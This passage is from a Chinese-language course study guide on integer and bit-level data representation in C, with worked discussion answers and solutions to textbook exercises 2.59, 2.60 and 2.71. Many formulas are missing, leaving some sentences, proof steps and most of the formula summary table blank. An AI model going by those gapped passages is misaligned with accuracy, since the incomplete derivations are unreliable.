速度差异很明显：转十六进制只要两次查表，操作次数固定为 2，与 1 的个数无关；转十进制要识别每个 1 的位置、回忆 ，再做最多 7 次多位数加法，11011010 这样的数要加 5 项。反过来从十进制转二进制更慢，需要连续除以 2 共 8 次（或反复减去最大的 2 的幂）。表中最后一列也说明：十六进制到十进制只需“高位 × 16 + 低位”，所以实践中常以十六进制为中介。
1（3）拓展研讨：现在主流的设计方案是 8 位为 1 个字节，4 个字节为 1 个字（int 整型数）。你觉得这样设计是什么原因？有什么优点和不足？还有其他更好或者也很好的方式吗？
8 位一个字节是历史与工程共同选择的结果。1964 年 IBM System/360 确立了 8 位字节并成为行业标准，在此之前也有 6 位、7 位、9 位的“字节”。8 位的理由有：（1）8 是 2 的幂，位地址 = 字节地址 × 8，求位号只需移位 3 位；8、16、32、64 位的数据宽度可以整齐嵌套；（2）8 位足以容纳一个西文字符（ASCII 7 位，扩展到 8 位可编码 256 个字符），也恰好是两个十六进制数字或两个 BCD 十进制数字；（3）粒度适中：再小的话地址会消耗太多位，再大的话存储小数据浪费空间。
int 为 4 字节的理由是：32 位的范围约为 ±21 亿，能满足绝大多数计数需求；它曾经与 32 位机器的寄存器宽度、ALU 宽度一致，运算最快；64 位时代保持 int 为 32 位（LP64 模型），是为了兼容大量旧代码与数据格式，同时让数组和结构体更紧凑，在高速缓存中放下更多数据。
| 优点 | 不足 |
|---|---|
| 统一的字节寻址简化了硬件、编译器、文件格式和网络协议的设计；不同机器容易交换数据 | 字节寻址使地址多消耗 3 位；一个 bool 也要占一个字节，存储稀疏数据有浪费 |
| 2 的幂宽度使地址计算、对齐、移位都非常简单 | 32 位 int 在今天并不总够用：时间戳的 2038 年问题、大文件尺寸、大数组下标都会溢出 |
| 8 位字节与 ASCII 天然匹配 | 中文等字符需要多字节编码（UTF-8 中一个汉字 3 字节），产生了变长编码的复杂性 |
此外，历史上 PDP-10 等机器使用 36 位字、可变长字节；一些数字信号处理器（DSP）按字寻址，char 就是 16 位或 32 位（C 标准用 CHAR_BIT 描述字节位数，并未规定必须是 8）。软件层面，Python 的 int 是任意精度的，Protocol Buffers 用变长的 varint 编码小整数以节省空间。比较好的实践是：硬件层面保持 8 位字节和 2 的幂宽度（它的好处已经被验证），而程序员根据需要显式选择 int32_t、int64_t 等定宽类型，在溢出风险高的地方使用更宽的类型或任意精度库。
1（4）参照课件第 8 页，设计两个单字节的二进制数，展示位级的与、或、非、异或运算。
设 a = 1011 0110（0xB6），b = 0110 1011（0x6B）。逐位运算如下，每一列都可以对照真值表核对：
位级运算示例
| a = 0xB6 | 1 | 0 | 1 | 1 | 0 | 1 | 1 | 0 | |
| b = 0x6B | 0 | 1 | 1 | 0 | 1 | 0 | 1 | 1 | |
| a & b | 0 | 0 | 1 | 0 | 0 | 0 | 1 | 0 | = 0x22，两位都为 1 才为 1 |
| a | b | 1 | 1 | 1 | 1 | 1 | 1 | 1 | 1 | = 0xFF，有一位为 1 就为 1 |
| a ^ b | 1 | 1 | 0 | 1 | 1 | 1 | 0 | 1 | = 0xDD，两位不同才为 1 |
| ~a | 0 | 1 | 0 | 0 | 1 | 0 | 0 | 1 | = 0x49，逐位取反 |
| ~b | 1 | 0 | 0 | 1 | 0 | 1 | 0 | 0 | = 0x94，逐位取反 |
用集合的观点验证：a 表示 {1, 2, 4, 5, 7}，b 表示 {0, 1, 3, 5, 6}，交集 {1, 5} 正是 0010 0010；并集是 {0, …, 7} 全集，即 1111 1111；对称差 {0, 2, 3, 4, 6, 7} 即 1101 1101。还可以验证几条性质：(a ^ b) ^ b == a（异或两次还原）、a ^ b == (a | b) & ~(a & b)（0xFF & 0xDD = 0xDD）、德摩根律 ~(a & b) == ~a | ~b（0xDD = 0x49 | 0x94 = 0xDD）。
1（5）参照课件第 11 页，设计几个单字节的数（十六进制表达形式），展示 C 语言中逻辑操作的与、或、非。比较分析这些操作和位级操作的异同。
取 x = 0xC0、y = 0x3F、z = 0x00（均为 unsigned char；表中按位运算的结果按截断回 8 位列出）。特意让 x 与 y 的 1 位完全不重叠，这样位运算与逻辑运算的差异最明显：
表 37 逻辑运算与位运算对比
| 逻辑运算 | 结果 | 对应位运算 | 结果 | 分析 |
|---|---|---|---|---|
x && y | 0x01 | x & y | 0x00 | 两数都非 0 故逻辑与为真；但没有公共的 1 位，按位与为 0 |
x || z | 0x01 | x | z | 0xC0 | 逻辑或只给出 0/1，位或保留了具体的位 |
!x | 0x00 | ~x | 0x3F | ! 把非 0 变成 0；~ 逐位取反，非 0 数取反后通常仍非 0 |
!z | 0x01 | ~z | 0xFF | |
!!y | 0x01 | ~~y | 0x3F | !! 把任意非 0 值规范化为 1，常用于 Data Lab |
z && (1/z) | 0x00 | z & (1/z) | 除零错误 | 短路：左边为假，右边不求值 |
★ 异同小结
两者的相同点是都可以作用于任意整型；当操作数只取 0 或 1 时，&& 与 &、|| 与 | 的值相同（但短路行为仍不同）。
不同之处首先在于：位运算对每一位独立运算，结果可以是任意位模式；逻辑运算把整个数看作一个真值，结果只有 0 或 1。
其次，! 与 ~ 完全不同，!x 等价于 x == 0。
此外，逻辑运算有短路求值，并在第一个操作数后形成序列点；位运算总是计算两个操作数。
1（6）课件第 11 页提到了“p && *p”可以避免空指针访问，找出现实中关于这种操作的实际代码片段，并说明其原理。
第一个实际例子是 musl C 标准库中 getenv 的实现（src/env/getenv.c）。它把多个条件用 && 连接，最后一个条件 __environ 检查环境变量表指针非空，只有全部为真才进入循环；循环条件 *e 又在每次迭代检查当前指针是否为表尾的空指针。
char *getenv(const char *name)
{
size_t l = __strchrnul(name, '=') - name;
if (l && !name[l] && __environ) /* __environ 为 NULL 时不会进入循环 */
for (char **e = __environ; *e; e++)
if (!strncmp(name, *e, l) && l[*e] == '=')
return *e + l+1;
return 0;
}第二个实际例子是链表查找与“非空字符串”判断，这是最常见的惯用写法，几乎出现在所有 C 项目中：
while (p && p->key != key) /* p 为 NULL 时不会访问 p->key */
p = p->next;
const char *home = getenv("HOME");
if (home && *home) { ... } /* 未设置（NULL）或为空串都跳过 */短路求值的原理如下。C 标准规定 && 从左到右求值，左操作数求值后有一个序列点；若左操作数为 0（假），整个表达式的结果已经确定为 0，右操作数根本不会被求值。空指针的值为 0，所以 p && *p 中，p 为空时 *p 不会执行，避免了段错误；p 非空时才解引用，检查所指字符是否为 '\0'。如果误写成 p & *p，两边都要求值，p 为空时 *p 立即崩溃。在机器层面，短路求值被编译为条件跳转：先 test %rdi,%rdi，若为零则 je 跳过对 (%rdi) 的访存。这将在第 5 讲（控制）中看到。
1（7）参照课件第 12 页，设计几个单字节的二进制数，展示左移和两种右移操作。结合本讲后面学到的知识，分析为什么需要两种右移。
第一个例子取 x = 1001 0110（无符号为 150，有符号为 −106）：
| x = 0x96 | 1 | 0 | 0 | 1 | 0 | 1 | 1 | 0 | |
| x << 2 | 0 | 1 | 0 | 1 | 1 | 0 | 0 | 0 | = 0x58 |
| 逻辑 x >> 2 | 0 | 0 | 1 | 0 | 0 | 1 | 0 | 1 | = 0x25 = 37 = ⌊150/4⌋ |
| 算术 x >> 2 | 1 | 1 | 1 | 0 | 0 | 1 | 0 | 1 | = 0xE5 = −27 = ⌊−106/4⌋ |
第二个例子取 x = 0101 1011（= 91）：
| x = 0x5B | 0 | 1 | 0 | 1 | 1 | 0 | 1 | 1 | |
| x << 3 | 1 | 1 | 0 | 1 | 1 | 0 | 0 | 0 | = 0xD8，高位 010 被丢弃 |
| 逻辑 x >> 3 | 0 | 0 | 0 | 0 | 1 | 0 | 1 | 1 | = 0x0B = 11 = ⌊91/8⌋ |
| 算术 x >> 3 | 0 | 0 | 0 | 0 | 1 | 0 | 1 | 1 | = 0x0B，最高位为 0，两种右移相同 |
■ 原最高位 ■ 保留的原有位 ■ 补入的 0 ■ 复制的符号位
为什么需要两种右移？因为同一个位模式有两种解释，右移要对两种解释都“正确地除以 ”。对无符号数 150，正确结果是 37，必须在左边补 0（逻辑右移）；对有符号数 −106，若也补 0 会得到正数 37，完全错误，必须补符号位才能保持负数，得到 （算术右移）。从 2.5 节看，算术右移本质上就是“丢掉低位，再对剩下的位做符号扩展”。
表 38 两种右移各自的用途
| 用途 | 需要的右移 | 原因 |
|---|---|---|
| 无符号数除以 | 逻辑右移 | 高位应为 0 |
| 有符号数除以 （向下取整） | 算术右移 | 保持符号；向零取整还需加偏置（2.8 节） |
| 把位向量当集合、提取位段 | 逻辑右移 | 不希望高位被符号位“污染” |
| 生成全 0 / 全 1 掩码 | 算术右移 | x >> 31 在 x 为负时得到 −1（全 1），否则得到 0 |
| 提取有符号的位段并符号扩展 | 算术右移 | 先左移到最高位，再算术右移回来（作业 2.71） |
至于左移，不论数据有无符号，右侧都只能补 0，左移 k 位总是等于乘以 再模 ，因此只需要一种左移。
研讨题 2：关于整型数#
2（1）参照课件第 14 页，设计几个 short int 类型的数，用 B2U 和 B2T 两个公式分别进行十进制到二进制的手工转换，按步骤展示过程。要包含正数、负数和最大最小等边界情况。
转换的思路如下。十进制转二进制时，无符号数（B2U）就是不断减去不超过余数的最大的 2 的幂，用到的每个 对应 ；有符号负数（B2T）先确定符号位为 1（贡献 ），再求剩余的正部分 的二进制，填入低 15 位。
正数：x = 9876（short）
9876 ≥ 0，符号位 ，低 15 位按 B2U 求：
所以第 13、10、9、7、4、2 位为 1：0010 0110 1001 0100 = 0x2694。核对：。
负数：y = −9876（short）
负数的符号位 ，由 B2T 公式，剩余 15 位的和必须是 ：
于是位模式为 1101 1001 0110 1100 = 0xD96C。用“取反加一”核对：~0x2694 + 1 = 0xD96B + 1 = 0xD96C。✓
同一个位模式的两种解释：u = 40000（unsigned short）
，位模式 1001 1100 0100 0000 = 0x9C40。
按 B2T 解释同一个位模式：，正好等于 ，与 U2T 公式一致。
表 39 边界情况
| 情形 | 值 | 位模式 | 十六进制 | B2U 解释 | B2T 解释 |
|---|---|---|---|---|---|
| short 最大值 TMax | 32767 | 0111 1111 1111 1111 | 0x7FFF | 32767 | 32767 |
| short 最小值 TMin | −32768 | 1000 0000 0000 0000 | 0x8000 | 32768 | |
| −1 | −1 | 1111 1111 1111 1111 | 0xFFFF | 65535 = UMax | |
| 0 | 0 | 0000 0000 0000 0000 | 0x0000 | 0 | 0 |
| unsigned short 最大值 UMax | 65535 | 1111 1111 1111 1111 | 0xFFFF | 65535 | −1 |
边界情况呈现出明显的规律：TMax 是“0 后面全 1”，TMin 是“1 后面全 0”，−1 与 UMax 都是全 1。TMin 不能用“先写 32768 的二进制再取反加一”的方法求，因为 32768 超出了 short 的范围；但用 B2T 公式直接写出 、其余为 0 即可，这正是 B2T 方法的优点。
2（2）教材上提到了有符号数的其他编码方法（原码、反码），介绍其编码规则，并和补码比较优缺点。
教材 2.2.3 节旁注介绍了两种其他的有符号编码。原码（sign-magnitude）：最高位是符号位，表示正负；其余各位表示绝对值。反码（ones’ complement）：最高位权重为 ，其余与补码相同；负数的反码等于对应正数逐位取反。三种编码的定义对比：
表 40 同一位模式在三种编码下的值（）；−5 分别为 1101、1010、1011
| 4 位位模式 | 原码 | 反码 | 补码 |
|---|---|---|---|
| 0101 | +5 | +5 | +5 |
| 1101 | −5 | −2 | −3 |
| 1010 | −2 | −5 | −6 |
| 1011 | −3 | −4 | −5 |
| 0000 | +0 | +0 | 0 |
| 1000 | −0 | −7 | −8 |
| 1111 | −7 | −0 | −1 |
| 表示范围 | −7 ～ +7 | −7 ～ +7 | −8 ～ +7 |
表 41 三种编码的优缺点
| 比较项 | 原码 | 反码 | 补码 |
|---|---|---|---|
| 零的表示 | 两个（+0、−0） | 两个（+0、−0） | 唯一 |
| 范围是否对称 | 对称 | 对称 | 不对称，多一个负数 |
| 加减法电路 | 要比较符号和绝对值，复杂 | 需要“循环进位”（end-around carry） | 与无符号加法完全相同 |
| 取负 | 翻转符号位 | 逐位取反 | 取反加一 |
| 现今的应用 | IEEE 浮点数的符号位 + 有效数字 | TCP/IP 校验和（反码求和） | 几乎所有机器的整数表示 |
补码胜出的根本原因是：加法、减法、乘法的低位结果在位级上与无符号运算完全一致，硬件只需一套加法器和乘法器，同时零的表示唯一，判零简单。它唯一的“缺点”是范围不对称，导致 这类边界情况，需要程序员留心。
2（3）拓展研讨：课件第 19 页提到的补码数取反操作，证明其成立。
要证明的命题如下。对任意 位补码整数 x，在补码运算下 ，即 。
证明如下。设 x 的位向量为 ，则 ~x 的位向量为 。先按无符号数计算：
因此 。由 2.4 节， 与 只差 的整数倍，所以
补码加法的结果是唯一落在 内的、与真实结果模 同余的数。当 时， 本身就在范围内，所以 精确成立。当 时， 超出范围，同余类中落在范围内的数是 ；而补码取负的定义恰好是 ，两者一致。验证：， 溢出为 TMin。∎
★ 直观理解
的每一位都是 1 + 0，没有进位，结果全 1，即 −1；移项得 ，所以 。另一个常用推论：，例如 ~5 == -6、~(-1) == 0。
2（4）参照课件第 28 页，设计几个有符号数和无符号数，分析它们进行比较时成立的关系。
设 int 为 32 位、long 为 64 位（x86-64）。判断方法是先确定比较按哪种类型进行，再把两边转换到该类型后比较数值。
表 42 有符号与无符号比较（已用 gcc 在 x86-64 上验证）
| 表达式 | 比较方式 | 转换后的实际比较 | 结果 |
|---|---|---|---|
-5 < 3U | 无符号 | 4294967291 < 3 | 0（假） |
100 == 100U | 无符号 | 100 == 100 | 1 |
-2147483647-1 < 2147483647U | 无符号 | 2147483648 < 2147483647 | 0（假） |
(int)4294967295U < 0 | 有符号 | −1 < 0 | 1 |
-1 > (unsigned)-2 | 无符号 | 4294967295 > 4294967294 | 1 |
(short)-1 > 0U | 先整数提升为 int，再转无符号 | 4294967295 > 0 | 1（真） |
(unsigned short)65535 > -1 | 提升为 int 后有符号比较 | 65535 > −1 | 1 |
1L < -1U | long 能容纳全部 unsigned int，按 long 比较 | 1 < 4294967295 | 1（真） |
这些比较呈现出几条规律。（1）int 与 unsigned 比较时，负数会变成 的大正数，所以“负数 < 正数”的直觉常常失效；（2）非负数之间的比较不受影响；（3）比 int 窄的类型先整数提升为 int，可能使比较变成有符号的；（4）更宽的有符号类型可以容纳 unsigned int 时，比较按有符号进行。为了避免依赖这些规则，应在比较前显式转换，使两边类型一致。
2（5）简述扩展和截断的原则，重点分析为什么要用符号扩展方式（相比于直接在高位补 0），有什么用途。可以结合后面的乘法和除法等运算来思考。
扩展和截断遵循同一条原则。扩展的目标是保持数值不变——无符号数零扩展，补码数符号扩展。截断直接丢弃高位，无符号结果为原值模 ，补码结果为该值按 位补码重新解释；原值超出目标范围时截断会改变数值（2.5 节）。
那么补码为什么必须符号扩展？补码最高位的权重是负的。若对负数在高位补 0，原来的符号位就变成了正权重，负数变成大正数。例如 4 位的 −3 = 1101，零扩展为 8 位得到 0000 1101 = 13，数值完全错误；符号扩展得到 1111 1101，仍是 −3。从数学上看，符号扩展利用了 ，使新增的负权重与原符号位“变正”带来的增量正好抵消。
表 43 符号扩展的用途
| 用途 | 说明（后续课程会遇到） |
|---|---|
| C 的类型转换与整数提升 | char、short 参与运算时提升为 int；int 赋给 long 时符号扩展 |
| 把窄数据装入宽寄存器 | x86-64 的 movsbl、movswq、movslq、cltq 等指令专门做符号扩展，movzbl 等做零扩展（第 4 讲） |
| 指令中的立即数和位移量 | 机器指令中较短的立即数、内存寻址的偏移量都会被符号扩展到 64 位，使 -8(%rbp) 这样的负偏移得以表示 |
| 有符号乘法 | 要得到两个 位有符号数的完整 位乘积，可以先把操作数符号扩展到 位再相乘（x86-64 的单操作数 imulq）；若零扩展，负数会被当成大正数，高位全错 |
| 有符号除法 | idivq 的被除数是 128 位的 %rdx:%rax，除之前要用 cqto 把 %rax 符号扩展到 %rdx；无符号除法 divq 之前则把 %rdx 清零（零扩展） |
| 算术右移 | 算术右移 = 丢弃低 k 位 + 对剩下的 位做符号扩展，这正是负数除以 能得到正确符号的原因 |
| 提取有符号位段 | 作业 2.71 的 xbyte：从打包的字中取出一个有符号字节并符号扩展为 int |
2（6）设计几个数，分别在无符号数加法中产生溢出、在有符号数加法中产生两种溢出。
先用 8 位数展示位级过程，再给出 32 位的例子。
第一个例子是无符号溢出。unsigned char 的 200 + 100。
| u = 200 | 1 | 1 | 0 | 0 | 1 | 0 | 0 | 0 | ||
| v = 100 | 0 | 1 | 1 | 0 | 0 | 1 | 0 | 0 | ||
| 真实和 300 | 1 | 0 | 0 | 1 | 0 | 1 | 1 | 0 | 0 | 超过 UMax = 255 |
| UAdd 结果 | 0 | 0 | 1 | 0 | 1 | 1 | 0 | 0 | = 44 = 300 − 256 |
第二个例子是正溢出。signed char 的 100 + 50 = 150 超过 TMax = 127。
| x = 100 | 0 | 1 | 1 | 0 | 0 | 1 | 0 | 0 | |
| y = 50 | 0 | 0 | 1 | 1 | 0 | 0 | 1 | 0 | |
| TAdd 结果 | 1 | 0 | 0 | 1 | 0 | 1 | 1 | 0 | = −106 = 150 − 256 |
第三个例子是负溢出。signed char 的 (−100) + (−60)。
| x = −100 | 1 | 0 | 0 | 1 | 1 | 1 | 0 | 0 | ||
| y = −60 | 1 | 1 | 0 | 0 | 0 | 1 | 0 | 0 | ||
| 真实和 −160 | 1 | 0 | 1 | 1 | 0 | 0 | 0 | 0 | 0 | 低于 TMin = −128 |
| TAdd 结果 | 0 | 1 | 1 | 0 | 0 | 0 | 0 | 0 | = 96 = −160 + 256 |
表 44 32 位溢出示例（已验证）
| 类型 | 表达式（32 位） | 真实结果 | 机器结果 | 修正 |
|---|---|---|---|---|
| 无符号溢出 | 4000000000U + 500000000U | 4500000000 | 205032704 | |
| 正溢出 | 2000000000 + 2000000000 | 4000000000 | −294967296 | |
| 负溢出 | -2000000000 + -1000000000 | −3000000000 | 1294967296 |
检测溢出时，无符号溢出看结果是否小于任一加数（205032704 < 4000000000）；正溢出是两个正数相加得到负数；负溢出是两个负数相加得到非负数。异号数相加永远不会溢出。
2（7）基于课件第 48 页，分析为什么会用移位来代替部分乘法操作，分析哪些乘法操作不会被移位代替。
编译器之所以用移位代替乘法，有两个原因。（1）速度方面，在大多数处理器上，整数乘法需要多个时钟周期（x86-64 上 imul 的延迟约 3 个周期，早期机器上超过 10 个周期），而移位、加减和 lea 只需 1 个周期，且可以多条并行执行；（2）正确性方面，x << k 与 在模 意义下完全相等，对无符号数和补码数都成立，即使溢出结果也与乘法相同，所以编译器可以放心替换。对于不是 2 的幂的常数，可以按 2.7 节的形式 A/B 分解为若干移位与加减。
也有几类乘法不会被移位代替。
如果乘数不是编译时常数，如 x * y，编译器不知道 y 的二进制形式，只能用 imul。
如果常数的二进制中 1 太多或太分散，如 x * 1234567（二进制 100101101011010000111），分解需要的移位和加减指令总代价超过一条乘法指令，gcc 直接生成 imull $1234567（见 2.7 节实测表）。编译器根据目标机器的指令代价做权衡，一般只在 2–3 条简单指令能完成时才替换。
浮点数的位模式不是“值 × 权重”的简单和，左移位模式不等于乘 2，不能用整数移位代替（乘 2 对应指数加 1，但需要处理溢出、非规格化数等情况）。
关闭优化也不是可靠的例外：实测 gcc 13 即使在 -O0 下，也会把 x*3、x*24 这类常数乘法展开为加法和移位；保留 imul 的只有乘数不是常数、或拆分代价过高的情形。
如果目标机器上乘法本来就很快，一些现代处理器的乘法器延迟很低，编译器的代价模型可能直接选择乘法。
2（8）参照课件第 61 页，设计几个 4 字节的数，分别用大端模式和小端模式放在某个指定的内存位置。
表 45 4 字节整数的大端与小端存放（同色为同一字节）
| 数据（起始地址） | 模式 | +0 | +1 | +2 | +3 |
|---|---|---|---|---|---|
int a = 0x89ABCDEF | 大端 | 89 | AB | CD | EF |
| （&a = 0x2000） | 小端 | EF | CD | AB | 89 |
int b = 2026 | 大端 | 00 | 00 | 07 | EA |
| （2026 = 0x000007EA，&b = 0x2004） | 小端 | EA | 07 | 00 | 00 |
int c = -2 | 大端 | FF | FF | FF | FE |
| （−2 = 0xFFFFFFFE，&c = 0x2008） | 小端 | FE | FF | FF | FF |
从这些例子可以归纳出规律。大端的内存顺序与书写顺序一致，小端则恰好相反。注意：（1）反转的单位是字节，不是十六进制数字，也不是位——0x89ABCDEF 的小端存放是 EF CD AB 89，而不是 FE DC BA 98；（2）在小端机器上，*(unsigned char *)&b 读到的是最低有效字节 0xEA，这正是教材习题 2.58 判断机器字节序的方法。
2（9）拓展研讨：如果一台基于 x86（采用小端格式）的计算机从互联网上获取了一些数据（采用大端格式），那会不会对这些数据进行格式转换？如果转换，在什么地方、在什么时候转换？
要看数据是什么。字节序只影响多字节整数（以及浮点数）的解释。对于以字节为单位的数据——ASCII/UTF-8 文本（如 HTTP 报文、JSON、HTML）、图片和视频的压缩字节流——不存在字节序问题，不需要转换，直接按字节顺序使用即可（课件 p.66：字符串没有字节序问题）。只有当程序要把收到的若干字节当作一个多字节数值来使用时，才需要转换。
表 46 x86 主机接收大端数据时的转换
| 层次 | 是否转换 | 在哪里、何时转换 |
|---|---|---|
| 网卡与链路层 | 不转换 | 网卡按字节顺序收发数据，不理解上层字段的含义 |
| 内核协议栈（IP/TCP/UDP 首部） | 按需转换 | 首部中的端口号、长度、序号等字段以大端（网络字节序）传输。内核在解析首部、需要做算术运算或比较时，用 ntohs/ntohl 一类函数转换；只做相等比较时，也常把常量预先转成网络字节序，避免逐包转换 |
| Socket 编程接口 | 程序员负责 | 填写 sockaddr_in 时必须写 sin_port = htons(8080)、sin_addr.s_addr = htonl(INADDR_ANY)；从 accept 得到的地址要用 ntohs 转回主机字节序后再打印 |
| 应用层二进制协议与文件格式 | 程序员负责 | 由协议或格式规定字节序，例如 PNG 文件、DNS 报文中的整数用大端，BMP 文件用小端。程序在解析字段时（收到数据后、首次把字段当作整数使用之前）转换，发送前做反向转换 |
转换由 CPU 执行软件指令完成：htonl（host to network long）、ntohl、htons、ntohs 在小端机器上会反转字节，在大端机器上什么都不做，因此使用它们的代码在两种机器上都正确，具有可移植性。在 x86-64 上，ntohl 通常被编译成一条 bswap 指令；较新的处理器还提供 movbe 指令，在读写内存的同时完成字节反转，代价很小。总结：转换发生在主机内部、由软件在“把字节解释为多字节数值”的那一刻进行；纯字节流数据不需要转换。
第四部分 作业题解答：2.59、2.60、2.71#
作业题来自教材第 2 章家庭作业（中文版 P88、P91；英文 Global Edition 中题号相同）。下面给出参考解答与思路，参考解答均已编译测试。
2.59 组合两个字#
题目编写一个 C 表达式，生成一个字，由 x 的最低有效字节和 y 中剩下的字节组成。对于运算数 x = 0x89ABCDEF 和 y = 0x76543210，就得到 0x765432EF。
解题的思路如下。用掩码 0xFF 从 x 中只保留最低字节，用掩码 ~0xFF 把 y 的最低字节清零，两部分的 1 位不会重叠，用按位或拼起来。~0xFF 的写法与字长无关，在 64 位的 long 上同样正确。
(x & 0xFF) | (y & ~0xFF)
/* x & 0xFF = 0x000000EF
y & ~0xFF = 0x76543200
按位或 = 0x765432EF ✓ */2.60 替换字节#
题目将 w 位字中的字节从 0（最低有效）到 w/8 − 1（最高有效）编号。写出 C 函数 unsigned replace_byte(unsigned x, int i, unsigned char b); 的代码，返回一个无符号值，其中参数 x 的字节 i 被替换成字节 b。例如 replace_byte(0x12345678, 2, 0xAB) → 0x12AB5678，replace_byte(0x12345678, 0, 0xAB) → 0x123456AB。
解题的思路如下。字节 i 位于第 到 位，移位量为 i << 3（即 ）。构造掩码 0xFFu << shift 标出这 8 位，用 x & ~mask 把它们清零，再把 b 移到同一位置后按位或进去。
unsigned replace_byte(unsigned x, int i, unsigned char b) {
int shift = i << 3; /* 字节 i 的起始位 = 8i */
unsigned mask = 0xFFu << shift; /* 注意 0xFFu：无符号常量 */
return (x & ~mask) | ((unsigned) b << shift);
}
/* replace_byte(0x12345678, 2, 0xAB) = 0x12AB5678 ✓
replace_byte(0x12345678, 0, 0xAB) = 0x123456AB ✓
replace_byte(0x12345678, 3, 0xAB) = 0xAB345678 ✓ */2.71 提取有符号字节#
题目4 个有符号字节被封装成一个 32 位 unsigned（typedef unsigned packed_t;），字节从 0（最低有效）到 3（最高有效）编号。要实现 int xbyte(packed_t word, int bytenum);，抽取出指定的字节，再把它符号扩展为 32 位 int。前任写了 return (word >> (bytenum << 3)) & 0xFF;。A. 这段代码错在哪里？B. 给出函数的正确实现，只能使用左右移位和一个减法。
A. 前任的代码把目标字节移到最低位后与 0xFF 相与，高 24 位被清零，相当于零扩展。题目要求的是有符号字节，负的字节应当符号扩展。例如 word = 0x80C142E2：
| bytenum | 目标字节 | 正确结果（符号扩展） | 前任的结果（零扩展） |
|---|---|---|---|
| 0 | 0xE2 | −30 | 226 ✗ |
| 1 | 0x42 | 66 | 66 ✓ |
| 2 | 0xC1 | −63 | 193 ✗ |
| 3 | 0x80 | −128 | 128 ✗ |
只要字节的最高位为 1（即该字节表示负数），结果就是错的；非负字节（如 0x42）碰巧正确。
B. 思路是“先左移、再算术右移”：先把目标字节左移到字的最高 8 位，此时它的最高位成为整个字的符号位；转换为 int 后算术右移 24 位，右移时自动复制符号位，完成符号扩展。目标字节 bytenum 需要左移 位，恰好用到一个减法。
int xbyte(packed_t word, int bytenum) {
int left = (3 - bytenum) << 3; /* 唯一的减法 */
return (int) (word << left) >> 24; /* 左移：逻辑移位；转 int 后算术右移 */
}
/* word = 0x80C142E2：bytenum = 0,1,2,3 分别得到 -30, 66, -63, -128 ✓ */bytenum = 2 的计算过程（紫色为目标字节 0xC1）
| word | 1 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 1 | 1 | 0 | 0 | 0 | 0 | 0 | 1 | 0 | 1 | 0 | 0 | 0 | 0 | 1 | 0 | 1 | 1 | 1 | 0 | 0 | 0 | 1 | 0 | 0x80C142E2 |
| word << 8 | 1 | 1 | 0 | 0 | 0 | 0 | 0 | 1 | 0 | 1 | 0 | 0 | 0 | 0 | 1 | 0 | 1 | 1 | 1 | 0 | 0 | 0 | 1 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0xC142E200 |
| (int) … >> 24 | 1 | 1 | 1 | 1 | 1 | 1 | 1 | 1 | 1 | 1 | 1 | 1 | 1 | 1 | 1 | 1 | 1 | 1 | 1 | 1 | 1 | 1 | 1 | 1 | 1 | 1 | 0 | 0 | 0 | 0 | 0 | 1 | 0xFFFFFFC1 = −63 |
■ 目标字节 ■ 左移时丢弃 ■ 补入的 0 ■ 算术右移复制的符号位
第五部分 复习速查#
5.1 公式一页纸#
表 47 第 2 讲核心公式
| 概念 | 公式 | 备注 |
|---|---|---|
| 无符号编码 | 每位权重 | |
| 补码编码 | 最高位权重 | |
| 范围 | ，， | |
| 补码 → 无符号 | 负数加 | |
| 无符号 → 补码 | 大于 TMax 减 | |
| 符号扩展 | 复制最高位 次 | 数值不变 |
| 无符号截断 | ||
| 补码截断 | ||
| 无符号加法 | 溢出 ⇔ | |
| 补码加法 | 同号相加、结果异号 ⇔ 溢出 | |
| 补码取负 | ， | |
| 乘法 | ， | 两者低 位相同 |
| 乘 | 有无符号均适用 | |
| 无符号除以 | （逻辑右移） | |
| 有符号除以 | ：；： | 向零取整 |
5.2 必须记住的数#
| 量 | 32 位十六进制 | 32 位十进制 | 8 位十六进制 |
|---|---|---|---|
| TMax | 0x7FFFFFFF | 2147483647 | 0x7F = 127 |
| TMin | 0x80000000 | −2147483648 | 0x80 = −128 |
| −1 / UMax | 0xFFFFFFFF | −1 / 4294967295 | 0xFF |
| 、、 | 0x400、0x100000、0x40000000 | ≈ 、、（K、M、G） | |
| 15213 / −15213（short） | 0x3B6D / 0xC493 | 课件贯穿使用的例子 |
5.3 易错点清单#
| # | 易错点 | 正确理解 |
|---|---|---|
| 1 | -1 < 0U 为真 | 为假：−1 被转换为 UMax |
| 2 | sizeof(x) - 1 >= 0 可以判断非空 | 恒为真：sizeof 的结果是无符号的 size_t |
| 3 | unsigned i; for (...; i >= 0; i--) | 死循环；改用 i < cnt 作为条件 |
| 4 | -x 总是与 x 符号相反 | TMin 的相反数是自己；0 的相反数是 0 |
| 5 | x * x >= 0 对 int 成立 | 溢出时可能为负 |
| 6 | x >> k 等于 x / 2^k | 负数不能整除时差 1，需要加偏置 |
| 7 | x & 7 == 7 是在检查低 3 位 | == 优先级高于 &，要写 (x & 7) == 7 |
| 8 | 1 << 2 + 3 等于 7 | + 优先级高于 <<，结果是 32 |
| 9 | 移位量 ≥ 字长时结果为 0 | 未定义行为，x86 上移位量会被取模 |
| 10 | ~x 与 !x 差不多 | ~ 逐位取反，! 只得 0 或 1 |
| 11 | short → unsigned 时零扩展 | 先符号扩展为 int 再转换为 unsigned |
| 12 | 小端存放是把十六进制数字倒过来写 | 反转的单位是字节：0x12345678 → 78 56 34 12 |
| 13 | INT_MAX + 1 一定等于 INT_MIN | 机器层面是这样，但 C 中有符号溢出是未定义行为 |
| 14 | 在 64 位机器上 long 和 int 一样大 | x86-64 上 long 和指针都是 8 字节 |
5.4 中英术语对照#
| English | 中文 | English | 中文 |
|---|---|---|---|
| bit / byte / word | 位 / 字节 / 字 | hexadecimal | 十六进制 |
| word size | 字长 | most / least significant bit (MSB / LSB) | 最高 / 最低有效位 |
| bit vector | 位向量 | mask | 掩码 |
| logical / arithmetic shift | 逻辑 / 算术移位 | short-circuit (early termination) | 短路求值 |
| unsigned encoding | 无符号编码 | two’s complement | 补码 |
| ones’ complement | 反码 | sign-magnitude | 原码 |
| sign bit | 符号位 | casting | 强制类型转换 |
| sign / zero extension | 符号 / 零扩展 | truncation | 截断 |
| overflow (positive / negative) | （正 / 负）溢出 | modular arithmetic | 模运算 |
| round toward zero / down | 向零 / 向下舍入 | bias | 偏置 |
| big / little endian | 大端 / 小端 | byte ordering | 字节顺序 |
| disassembler | 反汇编器 | undefined behavior | 未定义行为 |
第六部分 自测题#
以下题目为新编，用来检验本讲是否真正掌握。先独立完成，再看后面的答案。假设 int 为 32 位、short 为 16 位、补码表示、算术右移。
